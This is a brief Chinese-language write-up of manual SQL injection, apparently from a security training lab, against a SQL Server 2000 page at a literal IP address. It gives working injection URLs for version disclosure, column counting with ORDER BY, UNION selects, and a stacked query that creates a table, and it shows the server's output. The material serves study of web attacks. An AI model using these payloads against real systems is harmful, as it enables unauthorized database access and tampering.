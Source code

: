 # 以下为手工注入， 忽略


## 信息收集

1. **收集对象信息，方便查询文档**

```bash
http://59.63.200.79:8015/?id=1%27%20and%201=2%20union%20select%201,2,@@version%20--%20gg

# result: 	Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Enterprise Edition on Windows NT 6.1 (Build 7601: Service Pack 1)
```

## 判断注入点

```
http://59.63.200.79:8015/?id=1' order by 3  -- g
http://59.63.200.79:8015/?id=1' order by 4  -- g 
```

3 正确，4 错误。 有三个字段

## 判断是否 `堆叠注入`

**查询数据库 1 **

```
http://59.63.200.79:8015/?id=1%27%20and%201=2%20union%20select%20*%20from%20ggadmin32%20--%20g
```

![](https://nc0.cdn.zkaq.cn/md/8461/8cb2de677d2192c6ddb571e72ee9aa21_93454.png)

**创建数据库**

```sql
create table ggadmin2 (id int, username varchar(100), password varchar(100)) ;
```

```
http://59.63.200.79:8015/?id=1' ;  create table ggadmin32 (id int, username varchar(100), password varchar(100)) -- gg
```

此时并未报错， 并且正常返回。

**查询数据库2**

```
http://59.63.200.79:8015/?id=1%27%20and%201=2%20union%20select%20*%20from%20ggadmin32%20--%20g
```


![](https://nc0.cdn.zkaq.cn/md/8461/ae3e237a9b7ca1a0cd7010b3b2fdc88b_54253.png)

可以看到，并未报错，并且出现了空数据，这里并未查询到任何数据是因为我们新建表里没有任何数据。
